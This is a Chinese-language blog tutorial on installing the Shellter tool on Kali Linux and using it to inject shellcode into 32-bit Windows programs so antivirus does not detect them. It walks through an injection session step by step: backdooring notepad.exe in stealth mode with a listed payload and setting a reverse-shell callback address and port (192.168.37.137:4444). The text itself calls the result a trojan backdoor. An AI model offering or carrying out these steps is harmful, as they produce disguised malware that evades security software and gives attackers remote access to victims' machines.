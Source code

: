 # kali 免杀工具shellter安装以及使用



[搬瓦工VPS 2021最新优惠码（最新完整版）](https://www.e-learn.cn/content/qita/1200334)





由 回眸只為那壹抹淺笑 提交于 2020-08-13 06:22:59

Shellter 是一款动态 shellcode 注入工具，我们可以将shellcode注入到其它程序上，从而来躲避杀毒软件的查杀。俗称为免杀

官网：https://www.shellterproject.com/ 目前最新版本是7.2，主程序是.exe文件所以在windows下可以直接使用，在linux上运行的话

就需要安装wine环境来运行。我使用的Kali Linux 版本是kali-linux-2020.2目前最新版本 注意的是shellter目前只能注入32位的可执行文件

**开始安装：**

**1.  apt-get update    //更新一下**
**2.  apt-get install shellter  //直接apt在线安装**

**![img](https://img2020.cnblogs.com/blog/777998/202005/777998-20200518203511917-337449346.png)**

 

安装完成后 ，终端直接输入shellter打开会报错，根据提示 我们直接执行命令 dpkg --add-architecture i386 && apt-get update && apt-get install wine32

确认安装即可

![img](https://img2020.cnblogs.com/blog/777998/202005/777998-20200518204705147-975113740.png)

![img](https://img2020.cnblogs.com/blog/777998/202005/777998-20200518204745832-936560773.png)

现在我们打开shellter就可以打开运行了，工具安装完成后再/usr/share/windows-resources/shellter 这个文件夹

shellter目录下的Shellter_Backups文件夹是你注入文件后备份的文件夹，会自动把原文件备份一个到这个文件夹下。

 

**免杀实验：**

**![img](https://img2020.cnblogs.com/blog/777998/202005/777998-20200518205138033-2007052412.png)**

 

**Choose Operation Mode - Auto/Manual (A/M/H)：A      //选择模式 A 自动模式自动注入后门，M高级模式，H帮助**

**PE Target：/home/notepad.exe      // 注入的程序 这里已windows系统自带的32位记事本程序举例**

![img](https://img2020.cnblogs.com/blog/777998/202005/777998-20200518210823635-1306282893.png)

**Enable Stealth Mode? (Y/N/H): Y        //是否启用隐身模式 输入Y启用**

**Use a listed payload or custom? (L/C/H): L     //使用攻击模块列表或者自定义？ 输入L 选择Payload**

**Select payload by index: 1   //选择第一个**

**![img](https://img2020.cnblogs.com/blog/777998/202005/777998-20200518211202468-1208790198.png)**

 

**SET LHOST： 192.168.37.137  //设置反弹回来的IP 本机**

**SET LPORT：4444     //设置接收反弹的端口**

**![img](https://img2020.cnblogs.com/blog/777998/202005/777998-20200518211545439-1925527061.png)**

这样我们的木马后门shellcode就注入到这个文件里去了，